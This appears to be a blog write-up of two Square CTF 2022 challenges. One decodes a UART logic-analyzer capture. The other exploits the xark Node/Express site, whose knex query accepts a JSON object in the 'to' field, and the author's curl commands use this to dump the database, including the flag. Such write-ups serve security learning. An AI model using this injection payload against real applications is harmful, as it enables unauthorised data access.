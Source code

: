 ```yaml
---
title: "Square CTF 2022"
date: 2022-11-21
---
```


# Square CTF 2022

I participated in the [Square CTF 2022](https://squarectf.com/2022/index.html)] which is my 2nd time for this ctf. It was a lot of fun again and I solved 2 challenges, [sqUARe paymenT terminal](https://squarectf.com/2022/squarepaymentterminal.html) and [xark](https://squarectf.com/2022/xark.html).

## sqUARe paymenT terminal
misc  

sqUARe paymenT terminal is a UART challenge. A `Terminal_Cap.sal` file is provided. 

checking out the file:
```sh
$ file Terminal_Cap.sal
Terminal_Cap.sal: Zip archive data, at least v2.0 to extract, compression method=deflate

$ unzip Terminal_Cap.sal 
Archive:  Terminal_Cap.sal
  inflating: digital-0.bin           
  inflating: digital-1.bin           
  inflating: digital-2.bin           
  inflating: digital-3.bin           
  inflating: digital-4.bin           
  inflating: digital-5.bin           
  inflating: digital-6.bin           
  inflating: digital-7.bin           
  inflating: meta.json
```

We have 8 binary files and a `meta.json`. The file is long, but has some good clues:

<details>
  <summary>meta.json</summary>
  <pre id="json">             
  {
    "version": 15,
    "data": {
      "renderViewState": {
        "leftEdgeTimeSec": 2.347354838709678,
        "timeSecPerPixel": 0.0072688172043010755
      },
      "captureProgress": {
        "maxCollectedTime": 10.815999999999999,
        "processedInterval": {
          "begin": 0,
          "end": 10.837333333333333
        },
        "memoryUsedMb": 0,
        "isProcessing": false
      },
      "captureStartTime": {
        "unixTimeMilliseconds": 1667595522858,
        "fractionalMilliseconds": 0.56
      },
      "timingMarkers": {
        "markers": {},
        "pairs": {}
      },
      "measurements": [],
      "highLevelAnalyzers": [],
      "analyzers": [],
      "rowsSettings": [
        {
          "id": "b718c61e-499e-4190-bdcc-c2490165f32e",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 0",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 0
          }
        },
        {
          "id": "25e5f4a8-f0b4-4c4f-86f4-1e6148d47b30",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 1",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 1
          }
        },
        {
          "id": "c37287c6-be0a-4a06-8644-de1dcc84b038",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 2",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 2
          }
        },
        {
          "id": "39cc1040-bd89-4faf-ba36-d9884cc968d8",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 3",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 3
          }
        },
        {
          "id": "5c1c9b4e-ccb2-4e00-bea4-e257d2aa5785",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 4",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 4
          }
        },
        {
          "id": "8d93d75b-0896-4a10-a1ab-186cea0b80a3",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 5",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 5
          }
        },
        {
          "id": "fac1b78b-623e-48ee-8e47-0573eca9ddfb",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 6",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 6
          }
        },
        {
          "id": "97185903-d1b4-455c-9dd4-ad41686ae1ba",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 7",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 7
          }
        }
      ],
      "captureSettings": {
        "bufferSizeMb": 3072,
        "captureMode": "Circular",
        "stopAfterSeconds": 100,
        "trimAfterCapture": false,
        "trimTimeSeconds": 5,
        "digitalTriggerSettings": {
          "type": {
            "mode": "Edge",
            "name": "Rising",
            "pattern": "Rising"
          },
          "timeAfterTriggerToStop": 1,
          "linkedChannels": [],
          "duration": {
            "min": 0.001,
            "max": 0.01
          }
        },
        "glitchFilter": {
          "enabled": false,
          "channels": []
        },
        "connectedDevice": {
          "name": "Logic",
          "deviceId": "10367413859617842647",
          "deviceType": "Logic",
          "isSimulation": false,
          "capabilities": {
            "channelCapabilities": [
              {
                "type": "Digital",
                "index": 0,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 1,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 2,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 3,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 4,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 5,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 6,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 7,
                "capability": "AlwaysEnabled"
              }
            ],
            "sampleRateOptions": [
              {
                "digital": 24000000
              },
              {
                "digital": 16000000
              },
              {
                "digital": 12000000
              },
              {
                "digital": 8000000
              },
              {
                "digital": 4000000
              },
              {
                "digital": 2000000
              },
              {
                "digital": 1000000
              },
              {
                "digital": 500000
              },
              {
                "digital": 250000
              },
              {
                "digital": 200000
              },
              {
                "digital": 100000
              },
              {
                "digital": 50000
              },
              {
                "digital": 25000
              }
            ],
            "isPhysicalDevice": true
          },
          "settings": {
            "enabledChannels": [
              {
                "type": "Digital",
                "index": 0
              },
              {
                "type": "Digital",
                "index": 1
              },
              {
                "type": "Digital",
                "index": 2
              },
              {
                "type": "Digital",
                "index": 3
              },
              {
                "type": "Digital",
                "index": 4
              },
              {
                "type": "Digital",
                "index": 5
              },
              {
                "type": "Digital",
                "index": 6
              },
              {
                "type": "Digital",
                "index": 7
              }
            ],
            "sampleRate": {
              "digital": 24000000
            }
          }
        }
      },
      "digitalTriggerTime": -1,
      "name": "Session 0",
      "dataTable": {
        "columns": {
          "analyzerIdentifier": {
            "isActive": true,
            "width": 18,
            "isDefault": true,
            "baseKey": "analyzerIdentifier",
            "excludeFromSearch": true
          },
          "frameType": {
            "isActive": true,
            "width": 75,
            "isDefault": true,
            "baseKey": "frameType",
            "excludeFromSearch": false
          },
          "start": {
            "isActive": true,
            "width": 110,
            "isDefault": true,
            "baseKey": "start",
            "excludeFromSearch": true
          },
          "duration": {
            "isActive": true,
            "width": 80,
            "isDefault": true,
            "baseKey": "duration",
            "excludeFromSearch": true
          },
          "data_data": {
            "width": 75,
            "baseKey": "data",
            "isActive": false
          },
          "data_error": {
            "width": 75,
            "baseKey": "error",
            "isActive": false
          }
        }
      },
      "analyzerTrigger": {
        "settings": {
          "enabled": false,
          "searchQuery": "",
          "holdoffSeconds": 0.2
        }
      },
      "timeManager": {
        "t0": {
          "type": "startOfCapture"
        }
      },
      "captureNotes": ""
    },
    "binData": [
      {
        "type": "Digital",
        "index": 0,
        "file": "./digital-0.bin"
      },
      {
        "type": "Digital",
        "index": 1,
        "file": "./digital-1.bin"
      },
      {
        "type": "Digital",
        "index": 2,
        "file": "./digital-2.bin"
      },
      {
        "type": "Digital",
        "index": 3,
        "file": "./digital-3.bin"
      },
      {
        "type": "Digital",
        "index": 4,
        "file": "./digital-4.bin"
      },
      {
        "type": "Digital",
        "index": 5,
        "file": "./digital-5.bin"
      },
      {
        "type": "Digital",
        "index": 6,
        "file": "./digital-6.bin"
      },
      {
        "type": "Digital",
        "index": 7,
        "file": "./digital-7.bin"
      }
    ]
  }
  </pre>
</details>

The main clue that helped me was `"captureMode": "Circular"`. Googling this line led to the discussion forum of the [Saleae Logic 2](https://discuss.saleae.com/) logic analyzer. We download the software from the site and use it to open the capture file. 

![terminalcap_saleae]({{"../assets/2022-11-21-Square_CTF_0222/terminalcap_saleae.png" | relative_url }})

### figuring out the software

[Lots](https://en.wikipedia.org/wiki/Universal_asynchronous_receiver-transmitter) [of](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial/decode-uart) [reading](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial) plus trial and error in the Logic software helped find the bitrate of the capture. By zooming into one part of the signal and highlighting the sample, we can see the baud rate.

![big_analysis_mode]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode.png" | relative_url }})

Googling around again gets 38.4 kHz baud rate = 38400 bits/s. Enter this into the Async Serial Analyzer and we get our flag in the terminal view of the analyzer output.

![big_analysis_mode_2]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_2.png" | relative_url }})  

![big_analysis_mode_3]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_3.png" | relative_url }})


## xark
web  

xark is an anonymous messaging website with provided source files. When a user puts a message in the left pane, it is saved to a database. When a user puts their name into the right pane, all messages in the database that were addressed to them are shown. Sending SQL injections and xss payloads do not seem to have an effect on the page.

[Source](https://squarectf.com/2022/data/xark.zip) files are provided and we can see the website is using express and node. 

![xark mainpage]({{"../assets/2022-11-21-Square_CTF_0222/xark.png" | relative_url }})

### looking around 👀

We have 3 endpoints in `index.js`: `/debug`, `/record`, and `/data`. `/record` and `/data` are the send and receive crush message endpoints, respectively.

`/debug` shows us the config info
index.js:
```js
app.get('/debug', async (req, res) => {
    // poor man's clone
    const c = JSON.parse(JSON.stringify(config.get('knex')));
    if (c.connection.password) {
        c.connection.password = "*******";
    }
    res.status(200).send(c);
})
```

/debug 
```json
{"client":"mysql","connection":{"host":"database","port":"3306","user":"xark","password":"*******","database":"xark","charset":"utf8mb4"}}
```

[knex cve](https://www.cvedetails.com/cve/CVE-2019-10757/)  
There is a package called knex being used that queries the database. We also know the flag is inserted into the db when it is created.

```js
const knex = require('knex')(config.get('knex'));

knex.schema.hasTable('crushes').then(function(exists) {
    if (!exists) {
        console.log("crushes table doesn't exist, initializing...");
        knex.schema.createTable('crushes', function(table) {
            table.increments('id').primary();
            table.string('from').notNullable();
            table.string('to').notNullable();
            table.string('message').notNullable();
            table.index(['to']);
        }).then();
        knex('crushes').insert({
            from: config.init.flag,
            to: config.init.flag,
            message: 'This is the flag!',
        }).then();
    }
});
```

An old version of knex was vulnerable to sql injection. We know from package.json (`"knex": "^2.3.0",`) that this version of knex is not vulnerable to this.

### sending json

It seems that we must be able to pull this flag out of the db using the `/data` endpoint. But it we only have control of the line `to: req.body.to`.
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

Lines 34-36 of `index.js` have an interesting import 
```js
app.use(express.urlencoded({
    extended: false
}));
```
The [express docs](https://expressjs.com/en/api.html#express.urlencoded) state that `express.urlencoded()`:

>Returns middleware that only parses urlencoded bodies and only looks at requests where the Content-Type header matches the type option.

In the parameters for `urlencoded()`, the default value for the `type` parameter is `"application/x-www-form-urlencoded"`. If we send json then does the middleware not look at the request?

Sending some json, we can see the sql queries.
```sh
$ curl -d '{"to":"n","from":"m","message":["a","b"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/record
{"error":"insert into `crushes` (`from`, `message`, `to`) values ('m', 'a', 'b', 'n') - ER_WRONG_VALUE_COUNT_ON_ROW: Column count doesn't match value count at row 1"}%

$ curl -d '{"to":["n","m"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
{"error":"select * from `crushes` where `to` = 'n', 'm' limit 50 - ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ', 'm' limit 50' at line 1"}%
```

### solution

We get the flag by sending a request with `{"id":0}` in the `"to:"` field.

```sh
$ curl -d '{"to": {"id":0} }' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
[{"id":1,"from":"flag{kn3x3d_chall3ng3_pls}","to":"flag{kn3x3d_chall3ng3_pls}","message":"This is the flag!"},{"id":2,"from":"a","to":"b","message":"...
<...>
```
